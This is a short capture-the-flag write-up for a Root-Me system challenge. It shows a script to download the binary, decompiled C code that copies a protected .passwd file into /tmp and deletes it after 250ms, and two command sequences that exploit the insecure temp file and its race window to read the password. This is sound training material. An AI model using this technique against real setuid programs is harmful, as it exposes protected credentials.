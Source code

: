 ### S0lv3d by H4yicl3

First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+14h] [bp-Ch]@4
  int v5; // [sp+18h] [bp-8h]@7
  char v6; // [sp+1Fh] [bp-1h]@10

  if ( ptrace(0, 0, 1, 0) < 0 )
  {
    puts("[-] Don't use a debugguer !");
    abort();
  }
  //open the file /tmp/tmp_file.txt
  v4 = open("/tmp/tmp_file.txt", 0x41, 0x124);
  if ( v4 == -1 )
  {
    perror("[-] Can't create tmp file ");
    exit(0);
  }
  //open the file .passwd we need
  v5 = open("/challenge/app-systeme/ch12/.passwd", 0);
  if ( v5 == -1 )
  {
    perror("[-] Can't open file ");
    exit(0);
  }
  while ( read(v5, &v6, 1u) == 1 )
    write(v4, &v6, 1u);
  close(v5);
  close(v4);
  //sleep 250ms 
  usleep(250000u);
  //then deleted the file store password
  unlink("/tmp/tmp_file.txt");
  return 0;
}
```
we need to see the file /tmp/tmp_file.txt before it deleted

the easy way is create the /tmp/tmp_file.txt with full permission
then run a program !!
when progam running it open the file our /tmp/tmp_file.txt with permission write but when this program unlink !! file still exist !! 
Because this file can not delete by program !!
```
touch /tmp/tmp_file.txt
chmod +rwx /tmp/tmp_file.txt
./ch12
cat /tmp/tmp_file.txt
```

the other way is !!
first run ch12 in background, then sleep to wait for tmp_file.txt creation, finally cat it. 
(./ch12 &);sleep 0.1;cat /tmp/tmp_file.txt

we get flag!!


